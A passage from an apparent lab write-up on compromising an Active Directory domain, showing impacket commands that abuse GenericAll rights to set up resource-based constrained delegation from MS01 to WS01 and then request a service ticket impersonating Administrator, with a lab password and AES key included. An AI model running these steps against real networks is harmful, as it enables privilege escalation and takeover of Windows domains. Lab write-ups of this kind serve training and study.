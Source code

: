 \
We got creds of Georgia.Price user. Let's enumerate more.
![](image-24.png)

\
So this user has GenericAll over WS01 machine. In that machies LAPS does not exist, so what can we do? Of course RBCD. Remember that MS01 pwned and we can use that machine for RBCD.

```c
impacket-rbcd reflection.vl/georgia.price:'DBl+5MPkpJg5id' -dc-ip 10.10.214.101 -delegate-from MS01$ -delegate-to WS01$ -action write
```

![](image-25.png)

\
RBCD successfully completed now it is time to get Services Ticket as domain Administator and compromise the WS01 machine.

```c
impacket-getST reflection.vl/'MS01$' -dc-ip dc01.reflection.vl -aesKey 64cfd5762890faa03300f588488cff43e080f49be43e410c8c62d7acb502a5a1 -spn 'cifs/ws01.reflection.vl' -impersonate Administrator
```
